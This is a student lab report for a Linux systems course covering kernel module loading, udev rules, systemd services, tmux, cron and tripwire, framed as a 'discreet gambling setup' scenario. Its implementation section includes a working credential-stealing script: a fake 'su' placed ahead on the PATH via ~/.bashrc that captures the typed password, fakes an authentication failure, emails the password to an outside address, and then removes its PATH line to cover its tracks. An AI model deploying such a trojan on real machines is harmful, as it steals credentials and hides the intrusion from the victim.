



# VE482 Lab 10 Report

Lan Wang  519370910084

Kaiwen Zhang  519370910188

## Tasks

### A clean Setup

- **Where to copy the dice module for it to be officially known to the kernel?** 

  `/lib/modules/$(uname -r)/kernel/drivers/dice`

- **What command to run in order to generate the `modules.dep` and `map` files?**

  `depmod`

- **How to ensure the dice module is loaded at boot time, and how to pass it options?** [6]

  - Load: Edit `/etc/modules-load.d/modules.conf` add the kernel module name 
  - Options: In `/etc/modprobe.d`, touch one `*.conf` file and add `options <kernel_module_name> <parameter>=<value>`

- **How to create a new `friends` group and add grandpa and his friends to it?**[1]

  - Create a new `friends` group: `sudo groupadd friends`
  - Add grandpa: `sudo usermod -a -G friends grandpa`
  - Add friends: `sudo usermod -a -G friends friend[i]` where i can be any number

- **What is `udev` and how to define rules such that the group and permissions are automatically setup at device creation?**

  - `udev` "provides a dynamic device directory containing only the files for actually present devices. It creates or removes device node files usually located in the /dev directory, or it renames network interfaces."[2]
  - create a rules file in `/etc/udev/rules.d/*.rules`, set `KERNEL=="DeviceName"` and `MODE=777`.

### A discreet gambling setup  

#### Hacking mum’s computer  

For detailed implementation of this part, see chapter **Implementation**.

- **How adjust the PATH, ensure its new version is loaded but then forgotten?**
  * Modify `~/.bashrc`,  add `export PATH=$PATH:/place/with/the/file` as the end of the file
  * Remove this line after this shell script has been executed after booting.

* **What is the exact behaviour of `su` when wrong password is input?**
  
  Wait several seconds and then a line printed:
  
  ```text
  su: Authentication failure
  ```
  
* **When using the `read` command how to hide the user input?**
  
  `read -s`
  
* **How to send an email from the command line?** [3]
  
  * `sendmail user@example.com  < email.txt`
  
  * `mail -s "Subject" user@example.com < /dev/null`
  
  * `mutt -s "Subject" user@example.com < /dev/null`
  
  * ```shell
    ssmtp user@example.com 
    Subject: Test SSMTP Email
    Email send test using SSMTP
    via SMTP server.
    ^d
    ```
  
#### Automatic setup    

* **What is `systemd`, where are service files stored and how to write one?**

  `systemd` stands for system daemon, which provides a system and service manager that runs as PID 1 and starts the rest of the system. In other words, it starts first when booting. So, it can be used to load a software at boot time.

  The service files are stored in `/etc/systemd/system`.

  

  To write a service file, it should contain the following three sections: [4]

  * `[Unit]`: describes the unit's basic information and dependencies

    * | Option           | Description                                                  |
      | :--------------- | :----------------------------------------------------------- |
      | `Description`    | A short description of the unit.                             |
      | `Documentation`  | A list of URIs referencing documentation.                    |
      | `Before`/`After` | The unit will be started before/after the program.           |
      | `Requires`       | If this unit gets activated, the units listed here will be activated as well. If one of the other units gets deactivated or fails, this unit will be deactivated. |
      | `Wants`          | Configures weaker dependencies than `Requires`. If any of the listed units does not start successfully, it has no impact on the unit activation. |
      | `Conflicts`      | If a unit has a `Conflicts` setting on another unit, starting the former will stop the latter and vice versa. |

  * `[Service]`: describes specific behaviors

    * | Option            | Description                                                  |
      | :---------------- | :----------------------------------------------------------- |
      | `Type`            | Specifies the way we are going to start the process.<br />eg. `Type=simple`: commands in `ExecStart` will be run directly; `Type=forking`: commands in `ExecStart` will be run in the child process created by a `fork()`. |
      | `ExecStart`       | Commands with arguments to execute when the service is started. |
      | `ExecStop`        | Commands to execute to stop the service started via `ExecStart`. |
      | `ExecReload`      | Commands to execute to trigger a configuration reload in the service. |
      | `Restart`         | With this option enabled, the service shall be restarted when the service process exits, is killed, or a timeout is reached with the exception of a normal stop by the `systemctl stop` command. |
      | `RemainAfterExit` | If set to `True`, the service is considered active even when all its processes exited. Useful with `Type=oneshot`. Default value is `False`. |

  * `[Install]`: describes options for installation

    * | Option                   | Description                                                  |
      | :----------------------- | :----------------------------------------------------------- |
      | `Alias`                  | A space-separated list of additional names for the unit. Most `systemctl` commands, excluding `systemctl enable`, can use aliases instead of the actual unit name. |
      | `RequiredBy`, `WantedBy` | The current service will be started when the listed services are started. |
      | `Also`                   | Specifies a list of units to be enabled or disabled along with this unit when a user runs `systemctl enable` or `systemctl disable`. |

* **How to get a `systemd` service to autostart?**

  `sudo systemctl enable <service>`

* **What is the difference between running `tmux` from the `systemd` service or from the `gp-2.10` daemon?**

  Running from the `systemd` service allows `tmux` to be started when booting.

* **What is `dbus` and how to listen to all the system events from the command line?**

  `dbus` is a message bus system, providing a simple way for applications to talk to each other. It's basically an IPC way and allows a process to use the APIs of other processes.

  We can use `dbus-monitor --system` to monitor all the system events.

* **What is `tmux`, when is it especially useful, and how to run a detached session?**

  `tmux` is terminal multiplexer, which can create a separate session. It's useful when a process keeps running and one needs another session to do other things.

  By `tmux new-session -d -s <session_name> -c <shell cmd>`.

* **What is `tripwire`, what are some alternatives, and why should the configuration files also be encrypted and their corresponding plaintext deleted?**

  `tripwire` is used to detect threats, identify vulnerabilities and harden configurations in real time.

  Some alternatives include OSSEC, Splunk, SolarWinds and so on. [5]

  Configuration files should be encrypted because they may control some critical behaviours of processes, such as starting other processes as we talked above.

* **What is `cron` and how to use it in order to run tasks at a specific time?**

  The cron command-line utility, also known as cron job, is a job scheduler on Unix-like operating systems. 

  To use it, we need to edit `crontab` file as following format:

  ```
  MIN(0-59) HOUR(0-23) DAY(1-31) MON(1-12) WEEKDAY(0-7, 0&7 are both Sunday) CMD
  * * * * * <command>
  ```

  * divided by space
  * operators: 
    * `*` for all numbers in certain scale
    * `a-b`: from `a` to `b`
    * `a,b`: `a` and `b`
    * `*/a`: execute once per `a`

  

## Implementation

### Automatic Module Install When Booting

Modify `/etc/modules-load.d/modules.conf` as to add `dicedevice` when booting

```shell
$ cat modules.conf
# /etc/modules: kernel modules to load at boot time.
#
# This file contains the names of kernel modules that should be loaded
# at boot time, one per line. Lines beginning with "#" are ignored.
dicedevice
```

To pass parameters,  in `/etc/modprobe.d`

```shell
sudo touch dicedevice.conf
# Vim it like
$ cat dicedevice.conf 
options dicedevice gen_sides=150

```

Then run `sudo depmod` to enable the changes.

After reboot, run `ls /dev`, we can find `dice_dev0` `dice_dev1` & `dice_dev2`. With result:

```shell
root@kevinzhang-virtual-machine:/dev# echo 5 > dice_dev2
root@kevinzhang-virtual-machine:/dev# cat dice_dev2
6 82 35 116 139 
```


### Hacking password

#### Sending Email from Command Line

```shell
# Install of email-service
sudo apt install mailutils
sudo apt install ssmtp


# Then modify /etc/ssmtp/ssmtp.conf

root=kevin_zhangcluthit@163.com
mailhub=smtp.163.com:465
AuthUser=kevin_zhangcluthit@163.com
AuthPass=<The one generated in 163 settings>
UseTLS=Yes

# Next modify /etc/ssmtp/revaliases
kevin-zhang:kevin_zhangcluthit@163.com:smtp.163.com:465

```

After this, the email can be sent from command line with `mail` command.

#### Modify the `PATH` to use fake `su`

in `hack.sh`

```shell
#!/bin/bash
echo "PATH=/home/${USER}/VE482_lab/l10:${PATH}" >> ~/.bashrc #Detailed PATH depends on what you set~
exec bash
```

#### Fake `su`

```shell
# First, write a shell script in name of `su`
#!/bin/bash
hack_passwd(){
echo "Password:"
read -s passwd
#echo ${passwd} debug usage
sleep 3
echo "su: Authentication failure"
mail -s "[Secret] Root Password of Mum" "kevin.zhang@sjtu.edu.cn" <<< ${passwd}
}

# Last part of this code is to clean the modified path
#echo "test su"
hack_passwd
head -n -1 ~/.bashrc >> ~/.bashrc_tmp
mv ~/.bashrc_tmp ~/.bashrc

#Another thing to do is to modify the right of this `su`
#Otherwise, it seems that this `su` won't be considered as a candidate for `su` command
sudo chmod 755 su
sudo chmod u+s su
```

#### Result






## Reference

[1] [How to Create Groups in Linux (groupadd Command) | Linuxize](https://linuxize.com/post/how-to-create-groups-in-linux)

[2] [udev(8) - Linux man page (die.net)](https://linux.die.net/man/8/udev)

[3] [5 Ways To Send Email from Linux Command Line - TecAdmin](https://tecadmin.net/ways-to-send-email-from-linux-command-line/)

[4] [ShellHacks: Command-Line Tips and Tricks](https://www.shellhacks.com/systemd-service-file-example/)

[5] [5 Best Tripwire Alternatives](https://www.dnsstuff.com/tripwire-alternatives)

[6] [11.04 - How to add kernel module parameters? - Ask Ubuntu](https://askubuntu.com/questions/51226/how-to-add-kernel-module-parameters)

